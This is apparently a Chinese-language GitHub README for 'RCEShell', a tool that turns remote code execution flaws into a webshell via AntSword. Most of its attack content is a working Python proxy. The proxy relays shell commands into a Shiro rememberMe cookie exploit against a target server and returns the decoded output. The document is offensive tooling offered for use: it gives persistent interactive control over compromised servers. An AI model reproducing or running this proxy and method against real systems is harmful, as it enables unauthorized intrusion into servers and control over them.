

# RCEShell: 将RCE等价转换为WebShell

基于AntSword的cmdshell，用于解决一些能够RCE但却因各种原因难以GetShell的情况。

# CMDShell

## 原理说明

大致就是使用纯命令，按照一个设定好的格式，实现数据的处理、拼接、返回，再使用GUI渲染出来。

[AntSword新类型 CmdLinux 预览](https://mp.weixin.qq.com/s?__biz=MzI0MDI5MTQ3OQ==&mid=2247484254&idx=1&sn=51b8aba9472ffe4ebad7d5153d2d1c6b&chksm=e91c58a6de6bd1b0dc725c985ec3cca4bd9a17451d313870f1f6463fb769d20ff836f3838c83&scene=21#wechat_redirect)

[新类型 PSWindows 预览](https://mp.weixin.qq.com/s/tPPg4VgQH-n2O3Lnfg8lVA)

> P.S. PSWindows文件下载只能下载文本类的文件。
> 

## Demo

使用system()模拟一个可以rce的地方。



在AntSword中添加连接，连接类型根据系统不同选择PSWindows或CMDLinux，此处选择PSWindows。


打开链接，即可将RCE的点当做标准webshell操作。


# RCEShell

## 以 Shiro RCE 为例

通过一层本地代理，将复杂HTTP请求转换为基础POST请求。

以shiro为例，常用工具中执行命令的请求逻辑为：在cookie中提交payload，payload获取当前报文中的指定header，并以该header的值作为执行的内容。


获取request中的报文：


其中用于交互的位置在header中：


返回的$$$XXX$$$即为base64加密后的结果。


## 写个转发脚本

监听web端口，将受到的post请求转换为shiro报文中的header，转发给目标url，提取有效返回结果并输出response。

### 实现代码

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.request
import urllib.parse
import re
import base64

# 提权response中的有效返回内容
def shiro(string):
    pattern = r'\$\$\$(.*?)\$\$\$'
    matches = re.findall(pattern, string)
    print(matches)
    matches = base64.b64decode(matches[0])
    return matches

# 指定目标URL
target_url = "http://1.1.1.1:8080/login"

# 创建自定义请求处理程序
class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        # 获取POST请求的数据
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        ant = 'cmd'

        # 解析POST请求的参数
        params = urllib.parse.parse_qs(post_data)

        # 处理参数
        cmd = ''
        for key, values in params.items():
            if key.decode('utf-8') == ant:
                cmd = values[0].decode('utf-8')

        headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.4 Safari/605.1.15",
            "Cookie": "rememberMe=……",
            "c": cmd,
            "Content-Type": "application/json"
        }

        req = urllib.request.Request(target_url, headers=headers, data=post_data)
        response = urllib.request.urlopen(req)

        # 获取目标URL的响应
        response_data = response.read()

        # 设置响应头
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()

        # 返回目标URL的响应给客户端
        self.wfile.write(shiro(response_data.decode('utf-8')))

# 启动Web服务器
def run():
    server_address = ('', 8001)
    httpd = HTTPServer(server_address, RequestHandler)
    print('启动 Forward 服务器...')
    httpd.serve_forever()

run()
```

其中，经过脚本转发后，request与response还原为基础post请求与返回。


## 效果演示

在AntSword中添加本地监听的地址，指定连接类型，即可直接利用Shiro的RCE实现WebShell功能。 

